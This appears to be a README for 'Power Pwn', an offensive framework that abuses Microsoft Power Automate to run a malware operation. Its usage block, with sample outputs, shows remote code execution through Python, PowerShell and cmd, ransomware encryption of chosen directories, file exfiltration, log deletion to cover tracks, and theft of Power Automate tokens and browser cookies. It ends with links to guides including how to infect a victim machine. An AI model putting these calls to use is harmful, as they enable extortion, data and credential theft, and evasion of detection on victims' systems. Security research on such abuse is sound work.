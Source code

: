 # Power Pwn

Power Pwn is a demo showing how to repurpose Microsoft-trusted executables, service accounts and cloud services to power a malware operation.

<a href="https://powerautomate.microsoft.com/en-us/robotic-process-automation/"><img src="https://docs.microsoft.com/en-us/power-pages/media/overview/power-platform.png" alt="Power Pwn" width="500" height="250" /></a>

## Usage

```python
from powerpwn.cli import PowerPwn
POST_URL = ""
pp=PowerPwn(post_url=POST_URL)

### code execution

# python2
pp.exec_py2("print('hello world')").CodeExec
# CodeExecOutputs(ScriptOutput='\ufeffhello world\r\n', ScriptError='')

# python2 bad syntax
pp.exec_py2("bad syntax").CodeExec
# CodeExecOutputs(ScriptOutput='', ScriptError='  File "", line 1\r\n    bad syntax\r\n        ^\r\nSyntaxError: unexpected token \'syntax\'')

# powershell
pp.exec_ps("Write-Host \"hello word\"").CodeExec

# commandline
pp.exec_cmd("echo \"hello word\"").CodeExec
# CodeExecOutputs(ScriptOutput='Microsoft Windows [Version 10.0.22000.795]\r\n(c) Microsoft Corporation. All rights reserved.\r\n\r\nC:\\Program Files (x86)\\Power Automate Desktop>echo "hello word"\r\n"hello word"\r\n\r\n', ScriptError='')

### ransomware

pp.ransomware(crawl_depth=2, dirs_to_init_crawl=["C:\\Users\\alexg\\Documents\\mystuff", "D:\\shh"], encryption_key="8d1d4245").Ransomware
# Ransomware=RansomwareOutputs(FilesFound=9, FilesAccessed=9, FilesProcessed=9, Errors='')

### exfiltration

pp.exfil(target="C:\\Users\\alexg\\Downloads\\takeit.txt").Exfil
# ExfiltrationOutputs(Success=True, FileContents='asd')
pp.exfil(target="C:\\Users\\alexg\\Downloads\\dontexist.txt").Exfil
# ExfiltrationOutputs(Success=False, FileContents='')

### cleanup

pp.cleanup().Cleanup
# CleanupOutputs(FilesFound=179, LogFilesDeleted=178)

### steal_power_automate_token

pp.steal_power_automate_token().StealPowerAutomateToken
# StealPowerAutomateTokenOutputs(Token='ey...')

### steal_cookie
pp.steal_cookie("https://www.google.com").StealCookie
# StealCookieOutputs(Cookie='1P_JAR=2022-07-16-13; OGPC=19027681-1:')
```

## How To

[How to set up your Power Pwn cloud environment](docs/cloud_setup.md)

[How to infect a victim machine](docs/infect_machine.md)

[How to troubleshoot execution errors](docs/infect_machine.md)
